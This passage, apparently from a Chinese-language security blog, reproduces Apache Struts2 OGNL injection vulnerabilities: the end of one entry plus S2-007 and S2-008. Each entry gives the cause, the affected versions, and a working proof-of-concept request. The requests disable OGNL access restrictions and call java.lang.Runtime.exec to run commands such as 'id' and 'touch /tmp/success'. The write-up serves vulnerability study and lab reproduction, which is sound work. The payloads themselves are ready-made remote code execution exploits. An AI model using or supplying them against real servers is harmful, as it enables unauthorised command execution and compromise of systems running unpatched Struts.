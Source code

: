 **复现**：

无回显漏洞   poc创建success文件

```
POC:GET /example/HelloWorld.action?(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1 HTTP/1.1
```

![image-20201216141104863](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20201216141104863.png)

![image-20201216142158303](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20201216142158303.png)



## 0X03 S2-007复现

**原理**：age来自于用户输入，传递一个非整数给id导致错误，struts会将用户的输入当作ongl表达式执行，从而导致了漏洞

**影响版本**：Struts 2.0.0 - 2.2.3

**复现**：

当用户提交 age 为字符串而非整形数值时，后端用代码拼接 `"'" + value + "'"` 然后对其进行 OGNL 表达式解析。要成功利用，只需要找到一个配置了类似验证规则的表单字段使之转换出错，借助类似 SQLi 注入单引号拼接的方式即可注入任意 OGNL 表达式。

```
POC     id
+(#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + 
```



## 0X04 S2-008复现

**原理**：S2-008 涉及多个漏洞，Cookie 拦截器错误配置可造成 OGNL 表达式执行，但是由于大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这个点显得比较鸡肋。另一个比较鸡肋的点就是在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，但是这种情况在生产环境中几乎不可能存在，所以还是很鸡肋。

**影响版本**：Struts 2.1.0 – 2.3.1

```
POC

devmode.action?debug=command&expression=(%23_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)%3f(%23context[%23parameters.rpsobj[0]].getWriter().println(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()))):xx.toString.json&rpsobj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=123456789&command=id
```

![image-20201216144032430](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20201216144032430.png)
